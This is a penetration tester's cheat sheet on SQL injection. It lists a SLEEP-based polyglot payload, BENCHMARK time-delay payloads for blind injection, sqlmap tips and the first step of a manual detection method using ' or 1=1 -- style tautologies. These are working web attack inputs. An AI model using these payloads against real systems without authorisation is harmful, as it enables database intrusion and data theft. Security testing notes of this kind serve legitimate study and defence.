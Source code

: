 # SQL Injection

Core Idea: Does the page look like it might need to call on stored data?

There exist some SQLi polyglots, i.e (Mathias Karlsson);

```SQL
SLEEP(1) /*‘ or SLEEP(1) or ‘“ or SLEEP(1) or “*/
```

Works in single quote context, works in double quote context, works in “straight into query” context!

You can also leverage the large database of fuzzlists from Seclists (https://github.com/danielmiessler/SecLists)

##￼￼SQL Injection Observations
Blind is predominant, Error based is highly unlikely.

``
‘%2Bbenchmark(3200,SHA1(1))%2B’
``

``
‘+BENCHMARK(40000000,SHA1(1337))+’
``

SQLMap is king!

- Use -l to parse a Burp log file.
- Use Tamper Scripts for blacklists.
- SQLiPy Burp plugin works well to instrument SQLmap quickly.

Lots of injection in web services!

----------------
## SQL Injection Manually Step by Step

## 1. Determine if SQL injection exists

- Try injecting characters reserved in databases to produce error messages

```SQL
    single-quote
    back-slash
    double-hyphen
    forward-slash
    period
```

- If error message is produces, examine message for helpful errors, queries, database brand, columns, tables or other information.
- If no error message present, send valid data, "true" injections ("or 1=1") and "false" injections ("and 1=0"). Look for difference in the three responses

```SQL
  Technique: Blind SQL Injection - True and False Values
  Field: username
  True Value (Using Proxy): ' or 1=1 --
  False Value (Using Proxy): ' and 1=0 --
```
